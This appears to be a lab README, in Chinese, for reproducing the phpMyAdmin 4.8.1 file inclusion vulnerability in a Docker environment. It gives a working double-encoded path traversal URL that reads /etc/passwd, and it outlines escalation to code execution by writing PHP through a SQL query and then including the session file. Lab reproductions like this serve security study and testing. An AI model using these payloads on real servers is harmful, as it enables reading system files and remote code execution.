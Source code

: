 # phpmyadmin 4.8.1 远程文件包含漏洞

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

参考文档：

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog

## 漏洞环境

执行如下命令，启动phpmyadmin 4.8.1：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可进入phpmyadmin。配置的是“config”模式，所以无需输入密码，直接登录test账户。

## 漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在：

![](1.png)

利用方式也比较简单，可以执行一下`SELECT '<?=phpinfo()?>';`，然后查看自己的sessionid（cookie中phpMyAdmin的值），然后包含session文件即可：

![](2.png)